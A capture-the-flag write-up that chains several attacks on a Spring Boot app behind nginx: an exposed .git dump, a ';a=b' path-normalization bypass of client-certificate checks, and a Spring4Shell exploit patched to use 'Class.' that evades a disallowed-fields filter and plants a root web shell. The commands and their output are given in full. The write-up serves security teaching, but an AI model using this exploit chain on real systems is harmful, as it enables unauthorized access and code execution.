

# Misfire

## Description

The technical team is facing some issues in launching our own Heist website. The police has used some external hackers help and got it under their control. Find a way to get the key to take the control back.

## Solution

Browing to given URL we find a coming soon page which talks about heist panel.


We see nothing in page source too. Observing the response headers we find that this page is hosted on a Nginx server.

```bash
curl -I -k https://3.23.94.118:9001/
HTTP/1.1 200 
Server: nginx/1.18.0
Date: Sat, 16 Apr 2022 06:42:31 GMT
Content-Type: text/html;charset=ISO-8859-1
Content-Length: 3704
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Last-Modified: Fri, 15 Apr 2022 15:11:04 GMT
Accept-Ranges: bytes
Content-Language: en
```

 Trying a non existing page on the server results in a error message.


Searching online about `Whitelabel Error Page` reveals that this is a generic message thrown by Spring Boot framework. This is thrown when a custom error page is not set in the application configuration. 

We find nothing interesting. Let's enumerate files/folder using `ffuf` utility. 

```bash
ffuf -u https://3.23.94.118:9001/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : https://3.23.94.118:9001/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2]
                        [Status: 200, Size: 3704, Words: 499, Lines: 183]
index.html              [Status: 200, Size: 3704, Words: 499, Lines: 183]
users                   [Status: 403, Size: 153, Words: 3, Lines: 8]
```

Fuzzing revealed a Git repository and an endpoint called `/users`. users endpoint showing 403 status code which we don't have access to at the moment. Git repository can be extracted using [git-dumper](https://raw.githubusercontent.com/arthaud/git-dumper/master/git_dumper.py) tool. 

```bash
wget https://raw.githubusercontent.com/arthaud/git-dumper/master/git_dumper.py
```

```bash
python3 git_dumper.py https://3.23.94.118:9001/ repo
[-] Testing https://3.23.94.118:9001/.git/HEAD [200]
[-] Testing https://3.23.94.118:9001/.git/ [403]
[-] Fetching common files
...
[-] Running git checkout .
```

This downloads the repository to `repo` folder. Let's check the files. 

```bash
ls -al
total 4
drwxr-xr-x 1 root root   38 Apr 16 02:52 .
drwxr-xr-x 1 root root   34 Apr 16 02:52 ..
drwxr-xr-x 1 root root  128 Apr 16 02:52 .git
drwxr-xr-x 1 root root    8 Apr 16 02:52 nginx
-rw-r--r-- 1 root root 1744 Apr 16 02:52 pom.xml
drwxr-xr-x 1 root root    8 Apr 16 02:52 src
```

We see the application source code in `src` folder. 

```bash
ls -al src/main/java/com/heist/panel/
total 12
drwxr-xr-x 1 root root  112 Apr 16 02:52 .
drwxr-xr-x 1 root root   10 Apr 16 02:52 ..
-rw-r--r-- 1 root root  424 Apr 16 02:52 HeistApplication.java
-rw-r--r-- 1 root root 1674 Apr 16 02:52 HeistController.java
-rw-r--r-- 1 root root  313 Apr 16 02:52 PanelItems.java
```

Controller has the endpoint details. 

```java
package com.heist.panel;

import org.springframework.ui.Model;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.WebDataBinder;
import org.springframework.web.bind.annotation.InitBinder;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.bind.annotation.ModelAttribute;
import org.springframework.web.bind.annotation.RequestMapping;

@Controller
public class HeistController {

    @GetMapping(value="/posts")
    public String posts() {
        return "";
    }

    @RequestMapping(value = "/posts/delete")
    @ResponseBody
    public String deletePostsBySimplePath() {
        return "Panel Posts Delete: Removed";
    }

    @GetMapping(value="/users")
    public String users() {
        return "";
    }

    @PostMapping("/panel/status")
    public String panelStatus(@ModelAttribute PanelItems status, Model model) {
        return "Panel Status: OK";
    }

    @PostMapping("/panel/update")
    public String panelSubmit(@ModelAttribute PanelItems update, Model model) {
        return "Panel Update: Model yet to build";
    }

    @GetMapping(value="/comments")
    public String comments() {
        return "";
    }

    @GetMapping(value="/issues")
    public String issues() {
        return "";
    }

    @InitBinder
    public void initBinder(WebDataBinder binder) {
        String[] clist = {"class.*","*.class.*"};
        binder.setDisallowedFields(clist);
    }

    @GetMapping(value="/patches")
    public String patches() {
        return "";
    }

}
```

This has several endpoints. Browsing to any of the path reveals access denied message.

```bash
curl -I -k https://3.23.94.118:9001/panel/status
HTTP/1.1 403 Forbidden
Server: nginx/1.18.0
Date: Sat, 16 Apr 2022 06:57:22 GMT
Content-Type: text/html
Content-Length: 153
Connection: keep-alive
```

Nginx might be restricting our access. Let's explore Nginx configuration which is present inside `nginx/conf/default`. 

```
server {
  listen 443 ssl default_server;
  listen [::]:443 ssl default_server;

  ssl_certificate         /etc/nginx/certs/server.crt;
  ssl_certificate_key     /etc/nginx/certs/server.key;
  ssl_client_certificate  /etc/nginx/certs/client.crt;
  ssl_verify_client       optional;

  root /var/www/html;

  server_name _;

 location /users {
    if ($ssl_client_verify != "SUCCESS") { return 403; }
    proxy_pass http://localhost:8080;
    proxy_redirect http://localhost:8080 https://0.0.0.0;
  }

 location /posts/delete {
    if ($ssl_client_verify != "SUCCESS") { return 403; }
    proxy_pass http://localhost:8080;
    proxy_redirect http://localhost:8080 https://0.0.0.0;
  }

  location /panel/status {
    if ($ssl_client_verify != "SUCCESS") { return 403; }
    proxy_pass http://localhost:8080;
    proxy_redirect http://localhost:8080 https://0.0.0.0;
  }

  location /panel/update {
    if ($ssl_client_verify != "SUCCESS") { return 403; }
    proxy_pass http://localhost:8080;
    proxy_redirect http://localhost:8080 https://0.0.0.0;
  }
 
  location /.git/ {}

  location / {
    proxy_set_header Host $host;
    proxy_set_header X-Real-IP $remote_addr;
    proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    proxy_set_header X-Forwarded-Proto $scheme;
    proxy_pass http://localhost:8080;
    proxy_read_timeout 90;
    proxy_redirect http://localhost:8080 https://0.0.0.0;
    } 
}
```

Nginx is configured with mutual authentication and this is enabled on certain paths. Since `/.git` is excluded we're able to pull the repository. As we don't have the client certificates we can't create a PFX file to access this application. One interesting thing we can definitely look at is the reverse proxy configuration. Nginx is forwarding traffic to another service which is listening locally on the server. Reading about the server misconfigurations we come across the senpai Orange Tsai's [presentation](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf) on path normalization issue. The below two slides are of our interest. 




Assuming the service running on localhost is either Jetty or Tomcat, we can utilize this technique bypass the mutual authentication. Let's try to access `/panel/status` 

```bash
curl -k https://3.23.94.118:9001/panel\;a=b/status 
{"timestamp":"2022-04-16T07:07:34.832+00:00","status":405,"error":"Method Not Allowed","path":"/panel;a=b/status"}
```

 This seems worked and the server responded with `Method Not Allowed`. Since this path is mapped to POST method it denies the GET request and that makes sense. 

We now have a way to skip the mutual authentication. Searching more on Spring Boot exploits we find a latest exploit known as [Spring4Shell](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/). The Panel application is also utilizing Plain Old Java Object requests at least in two places. 

```java
@PostMapping("/panel/status")
    public String panelStatus(@ModelAttribute PanelItems status, Model model) {
        return "Panel Status: OK";
    }
@PostMapping("/panel/update")
    public String panelSubmit(@ModelAttribute PanelItems update, Model model) {
        return "Panel Update: Model yet to build";
    }
```

We can find many exploits online. Let's grab one and test this theory. 

```bash
wget https://raw.githubusercontent.com/reznok/Spring4Shell-POC/master/exploit.py
```

```bash
python3 exploit.py --url https://3.23.94.118:9001/panel\;a=b/status
[*] Resetting Log Variables.
[*] Response code: 500
[*] Modifying Log Configurations
[*] Response code: 500
[*] Response Code: 405
[*] Resetting Log Variables.
[*] Response code: 500
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: https://3.23.94.118:9001/shell.jsp?cmd=id
```

Let's check if file is actually created. 

```bash
curl https://3.23.94.118:9001/shell.jsp?cmd=id -k -s --output result && cat result && echo 
{"timestamp":"2022-04-16T07:53:36.053+00:00","status":404,"error":"Not Found","path":"/shell.jsp"}
```

It failed. Well let's dig a bit more on the Controller code. 

```java
@InitBinder
    public void initBinder(WebDataBinder binder) {
        String[] clist = {"class.*","*.class.*"};
        binder.setDisallowedFields(clist);
    }
```

We see a method `InitBinder` which has list of disallowed fields `class.*` and `*.class.*`. These are blocking our exploitation. But reading through earlier referred blogpost we find that this patch is improper as its not including `Class.*` and `*.Class.*`. Let's update our exploit to use `Class` in place of `class`. 

```bash
sed -i 's/class\./Class\./g' exploit.py
```

Running exploit again produced positive results. 

```bash
curl https://3.23.94.118:9001/shell.jsp?cmd=id -k -s --output result && cat result && echo 
uid=0(root) gid=0(root) groups=0(root)

//
```

We can find the flag at `/`. 

```bash
curl https://3.23.94.118:9001/shell.jsp?cmd=cat+/flag.txt -k -s --output result && cat result && echo 
ACVCTF{0_b0y_th4t_0n3_1s_sup3r_tr1cky}

//
```

